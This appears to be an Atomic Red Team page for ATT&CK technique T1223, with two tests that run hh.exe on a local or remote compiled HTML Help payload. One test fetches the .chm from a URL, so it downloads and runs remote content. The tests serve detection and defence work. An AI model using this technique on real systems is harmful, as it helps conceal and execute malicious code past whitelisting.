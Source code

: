 ```yaml
---
published: true
---
```

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1223)
<blockquote>Compiled HTML files (.chm) are commonly distributed as part of the Microsoft HTML Help system. CHM files are compressed compilations of various content such as HTML documents, images, and scripting/web related programming languages such VBA, JScript, Java, and ActiveX. (Citation: Microsoft HTML Help May 2018) CHM content is displayed using underlying components of the Internet Explorer browser (Citation: Microsoft HTML Help ActiveX) loaded by the HTML Help executable program (hh.exe). (Citation: Microsoft HTML Help Executable Program)
<br/>
Adversaries may abuse this technology to conceal malicious code. A custom CHM file containing embedded payloads could be delivered to a victim then triggered by <a href="https://attack.mitre.org/techniques/T1204">User Execution</a>. CHM execution may also bypass application whitelisting on older and/or unpatched systems that do not account for execution of binaries through hh.exe. (Citation: MsitPros CHM Aug 2017) (Citation: Microsoft CVE-2017-8625 Aug 2017)</blockquote>

## Atomic Tests

- Atomic Test #1 - Compiled HTML Help Local Payload

- Atomic Test #2 - Compiled HTML Help Remote Payload


<br/>

## Atomic Test #1 - Compiled HTML Help Local Payload
Uses hh.exe to execute a local compiled HTML Help payload.

**Supported Platforms:** Windows


#### Inputs

| Name | Description | Type | Default Value | 
|:------:|:-------------:|:------:|:---------------:|
| local_chm_file | Local .chm payload | path | C:\atomic-red-team\atomics\T1223\src\T1223.chm|

#### Run it with `command_prompt`!

```
hh.exe #{local_chm_file}
```
<br/>
<br/>

## Atomic Test #2 - Compiled HTML Help Remote Payload
Uses hh.exe to execute a remote compiled HTML Help payload.

**Supported Platforms:** Windows


#### Inputs

| Name | Description | Type | Default Value | 
|:------:|:-------------:|:------:|:---------------:|
| remote_chm_file | Remote .chm payload | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1223/src/T1223.chm|

#### Run it with `command_prompt`!

```
hh.exe #{remote_chm_file}
```
<br/>
